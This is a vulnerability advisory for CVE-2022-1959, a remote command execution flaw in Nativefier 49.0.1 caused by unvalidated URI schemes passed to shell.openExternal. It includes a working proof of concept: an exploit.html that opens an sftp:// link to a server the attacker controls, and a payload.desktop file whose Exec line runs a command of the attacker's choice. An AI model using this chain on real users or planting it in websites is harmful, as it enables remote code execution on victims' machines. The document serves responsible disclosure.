 ```yaml
---
slug: advisories/walker/
title: Nativefier 49.0.1 - RCE via malicious URI schemes
authors: Carlos Bello
writer: cbello
codename: walker
product: Nativefier 49.0.1
date: 2022-09-08 20:30 COT
cveid: CVE-2022-1959
severity: 8.8
description: Nativefier 49.0.1  -  RCE via malicious URI schemes
keywords: Fluid Attacks, Security, Vulnerabilities, Nativefier
banner: advisories-bg
advise: no
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Nativefier 49.0.1 - RCE via malicious URI schemes      |
| **Code name**         | [Walker](https://en.wikipedia.org/wiki/Alan_Walker)    |
| **Product**           | Nativefier                                             |
| **Affected versions** | Version 49.0.1                                         |
| **State**             | Private                                                |
| **Release date**      | 2022-09-08                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | Remote command execution                                                                               |
| **Rule**              | [004. Remote command execution](https://docs.fluidattacks.com/criteria/vulnerabilities/004)            |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 8.8                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-1959](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-1959)                          |

## Description

Nativefier version 49.0.1 allows an external attacker to execute
arbitrary commands remotely on any client that has used nativefier
to convert an infected web application into a desktop application.
This is made possible by the application not properly validating
the scheme/protocol of the external links it opens with the
shell.openExternal function.

## Vulnerability

This vulnerability occurs due to improper scheme/protocol validation
of external URLs:

* https://github.com/nativefier/nativefier/blob/60035a8e74e3794bac16fb5945780b9be514b164/app/src/helpers/windowEvents.ts#L62-L98

![](https://user-images.githubusercontent.com/51862990/189242160-4ef651cc-edcf-4e42-b4f3-8b01ff1cbf6b.png)

* https://github.com/nativefier/nativefier/blob/60035a8e74e3794bac16fb5945780b9be514b164/app/src/helpers/helpers.ts#L118-L163

![](https://user-images.githubusercontent.com/51862990/189242188-35d26936-a8da-4eef-9f98-f6f776c537d2.png)

* https://github.com/nativefier/nativefier/blob/60035a8e74e3794bac16fb5945780b9be514b164/app/src/helpers/helpers.ts#L169-L175

![](https://user-images.githubusercontent.com/51862990/189242216-7302a556-e9d3-47d4-ad4b-fb1345d553cd.png)

With these three screenshots we can demonstrate what was mentioned at
the beginning. Basically what the application is doing is sending to
shell.openExternal(url), any url that is not related to the origin of
the web application that was converted to a desktop application.

For example, if we execute the command:

```bash
nativefier 'http://cbelloatfluid.com'
```

And within that website there is a link pointing to http://something.com,
that link will be external, and therefore it will be opened with the
shell.openExternal function. Since the scheme/protocol of these links
is not validated, an attacker could infect legitimate web pages with
malicious JS code, so there will be potentially malicious links that
will result in remote code execution for any user who has used this
tool to generate the desktop version of the web page.

## Exploitation requirements

To achieve the RCE, the attacker will abuse certain schemes/protocols.
Some of these only work on windows, others on MACos, others only work
correctly under certain specific Linux distributions. In my case, I
used Xubuntu 20.04 (Xfce) to simulate a victim. I chose this distribution
because in its default configuration it executes the payload.desktop file
after mounting the remote location where the payload file is located.
In other Linux distributions by default these files are not executed once
the remote location is mounted.

Below I will provide you with support material so that you can understand
in greater depth what I have just explained:

* https://positive.security/blog/url-open-rce#windows-10-19042

## Exploitation

To exploit this vulnerability, you must host the following files on a server:

### exploit.html

```html
<!DOCTYPE html>
<html>
    <body>
        <script>
            window.open("sftp://user@server/uploads/payload.desktop");
        </script>
    </body>
</html>
```

### payload.desktop

In the Exec parameter you put the command you want the victim to execute.

```bash
[Desktop Entry]
Exec=xmessage "RCE by cbelloatfluid"
Type=Application
```

The **exploit.html** file will be saved in the root folder of your apache
server, while the payload.desktop file will be uploaded to the root folder
of your sftp/ftp server. In my case, I set up both services on the same
server.

With all the above done, now the client would only have to execute the
following command:

```bash
nativefier 'http://attacker-server.com/exploit.html'
```

Recall that in a real scenario, an attacker would infect a legitimate web
application with malicious JS code. This scenario is much more common and
therefore the attacker would have a higher success rate of exploitation,
performing untargeted attacks.

## Evidence of exploitation

![RCE-nativefier](https://user-images.githubusercontent.com/51862990/189242082-e3099152-713a-4dea-ae0f-d36db4999bcb.gif)

## Our security police

We have reserved the CVE-2022-1959 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Nativefier 49.0.1

* Operating System: GNU/Linux - Xubuntu 20.04 (Xfce)

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page** <https://github.com/nativefier/nativefier>

## Timeline

<time-lapse
  discovered="2022-09-06"
  contacted="2022-09-07"
  replied=""
  confirmed="2022-09-00"
  patched=""
  disclosure="2022-09-00">
</time-lapse>
